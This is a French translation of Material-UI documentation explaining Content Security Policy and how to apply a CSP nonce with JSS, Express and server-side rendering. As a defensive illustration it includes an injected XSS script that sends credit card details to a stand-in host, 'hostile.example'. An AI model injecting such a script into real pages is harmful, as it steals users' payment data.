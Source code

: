 # Politique de sécurité du contenu (CSP)

<p class="description">Material-UI supporte une politique de sécurité du contenu.</p>

## Qu'est-ce que le CSP et en quoi est-ce utile ?

Fondamentalement, CSP atténue les attaques XSS (Cross-Site Scripting) en obligeant les développeurs à ajouter aux listes blanches les sources de leurs ressources. Cette liste est renvoyée en tant qu'en-tête du serveur. Par exemple, disons que vous avez un site hébergé à `https://example.com` l'en-tête CSP `default-src: 'self';` autorisera toutes les requêtes à destination de `https://example.com/*` et refusera tous les autres. Si une section de votre site Web est vulnérable au XSS dans laquelle une entrée d'utilisateur non échappée est affichée, un attaquant pourrait saisir quelque chose du genre :

    <script>
      sendCreditCardDetails('https://hostile.example');
    </script>

Cette vulnérabilité permettrait à l'attaquant d'exécuter n'importe quoi. Cependant, avec un en-tête CSP sécurisé, le navigateur ne chargera pas ce script.

Vous pouvez en savoir plus sur le CSP [ ici ](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) .

## Comment met-on en place un CSP?

Pour utiliser CSP avec Material-UI (et JSS), vous devez utiliser un "nonce". Un "nonce" est une chaîne générée aléatoirement, utilisée une seule fois. Vous devez donc ajouter un proxy (middleware serveur) pour en générer un à chaque requête. JSS a un [ excellent tutoriel ](https://github.com/cssinjs/jss/blob/master/docs/csp.md) comment y parvenir avec Express et React Helmet. Pour un aperçu de base, continuez à lire.

Un nonce CSP est une chaîne codée en Base 64. Vous pouvez en générer un comme ceci:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

Il est très important d’utiliser UUID version 4, car cela génère un token ** imprévisible. **. Vous appliquez ensuite ce nonce à l'en-tête CSP. Un en-tête CSP pourrait ressembler à ceci avec le nonce appliqué:

```js
header('Content-Security-Policy').set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

Si vous utilisez le rendu SSR (Server Side Rendering), vous devez transmettre le nonce dans la balise `<style>` sur le serveur.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheetsRegistry.toString() }}
/>
```

Ensuite, vous devez transmettre ce nonce à JSS afin qu’il puisse l’ajouter aux balises `<style>` suivantes. Le côté client obtient le nonce à partir d'un en-tête. Vous devez inclure cet en-tête, que le SSR soit utilisé ou non.

```jsx
<meta property="csp-nonce" content={nonce} />
```
